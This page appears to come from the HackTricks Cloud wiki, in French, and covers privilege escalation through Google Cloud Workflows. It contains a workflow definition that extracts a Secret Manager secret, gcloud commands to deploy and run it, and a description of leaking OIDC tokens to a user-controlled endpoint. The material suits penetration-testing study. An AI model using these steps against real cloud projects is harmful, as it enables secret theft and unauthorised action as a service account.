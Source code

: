 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Informations de base :

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

À ma connaissance, il n'est pas possible d'obtenir un shell avec accès au point de terminaison des métadonnées contenant les identifiants de service du SA attaqué à un Workflow. Cependant, il est possible d'abuser des autorisations du SA en ajoutant les actions à effectuer à l'intérieur du Workflow.

Il est possible de trouver la documentation des connecteurs. Par exemple, voici la [**page du connecteur Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Dans la barre latérale, il est possible de trouver plusieurs autres connecteurs.

Et ici, vous pouvez trouver un exemple de connecteur qui imprime un secret :
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Mise à jour depuis la CLI :
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Si vous obtenez une erreur comme `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, il suffit de **patienter une minute et d'essayer à nouveau**.

Si vous n'avez pas accès au web, il est possible de déclencher et de voir l'exécution d'un Workflow avec :

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Vous pouvez également vérifier la sortie des exécutions précédentes pour rechercher des informations sensibles
{% endhint %}

Notez que même si vous obtenez une erreur comme `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` parce que vous n'avez pas cette permission, le workflow a été généré.

### Fuite du token OIDC (et OAuth ?)

Selon [**la documentation**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), il est possible d'utiliser des étapes de workflow qui enverront une requête HTTP avec le token OAuth ou OIDC. Cependant, tout comme dans le cas de [Cloud Scheduler](gcp-cloudscheduler-privesc.md), la requête HTTP avec le token Oauth doit être envoyée à l'hôte `.googleapis.com`.

{% hint style="danger" %}
Par conséquent, il est **possible de fuir le token OIDC en indiquant un point de terminaison HTTP** contrôlé par l'utilisateur, mais pour fuir le **token OAuth**, vous auriez **besoin d'un contournement** pour cette protection. Cependant, vous pouvez toujours **contacter n'importe quelle API GCP pour effectuer des actions au nom du SA** en utilisant soit des connecteurs, soit des requêtes HTTP avec le token OAuth.
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Avec cette permission au lieu de `workflows.workflows.create`, il est possible de mettre à jour un workflow déjà existant et d'effectuer les mêmes attaques.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
